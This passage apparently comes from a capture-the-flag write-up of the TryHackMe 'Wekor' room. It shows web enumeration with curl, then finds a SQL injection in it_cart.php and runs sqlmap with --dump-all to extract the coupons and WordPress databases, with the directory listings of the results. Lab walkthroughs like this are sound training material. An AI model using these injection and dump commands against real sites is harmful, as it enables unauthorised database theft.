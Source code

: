 ~~~
HTTP/1.1 404 Not Found
Date: Tue, 11 May 2021 16:27:14 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1

~~~

Browsing `http://wekor.thm/comingreallysoon/` discloses a new location: `/it-next`:

~~~
┌──(kali㉿kali)-[/data/Wekor]
└─$ curl -s http://wekor.thm/comingreallysoon/
Welcome Dear Client!

We've setup our latest website on /it-next, Please go check it out!

If you have any comments or suggestions, please tweet them to @faketwitteraccount!

Thanks a lot !
~~~

## SQL Injection

There are many pages in this website. Checking all pages where forms are available led me to a SQL injection vulnerability in the `it_cart.php` page. Intercept the page with BurpSuite, save the POST request as `ìt_cart_coupon.xml` and use `sqlmap` to dump the database:

~~~
$ sqlmap -r it_cart_coupon.xml --dump-all --threads=10
~~~

SQLmap has dumped 2 interesting databases: `coupons` and `worpress`:

~~~
┌──(kali㉿kali)-[~/…/sqlmap/output/wekor.thm/dump]
└─$ ll
total 24
drwxr-xr-x 2 kali kali 4096 May 11 19:45 coupons
drwxr-xr-x 2 kali kali 4096 May 11 19:45 information_schema
drwxr-xr-x 2 kali kali 4096 May 11 19:46 mysql
drwxr-xr-x 2 kali kali 4096 May 11 19:47 performance_schema
drwxr-xr-x 2 kali kali 4096 May 11 19:49 sys
drwxr-xr-x 2 kali kali 4096 May 11 19:49 wordpress
~~~

List of tables in the `wordpress` database:

~~~                                                                                                                    
┌──(kali㉿kali)-[~/…/sqlmap/output/wekor.thm/dump]
└─$ tree wordpress 
wordpress
├── option_value-36999631.bin
├── post_content-15186792.bin
├── wp_comments.csv
├── wp_options.csv
├── wp_postmeta.csv
├── wp_posts.csv
├── wp_term_relationships.csv
├── wp_terms.csv
├── wp_term_taxonomy.csv
├── wp_usermeta.csv
└── wp_users.csv
~~~

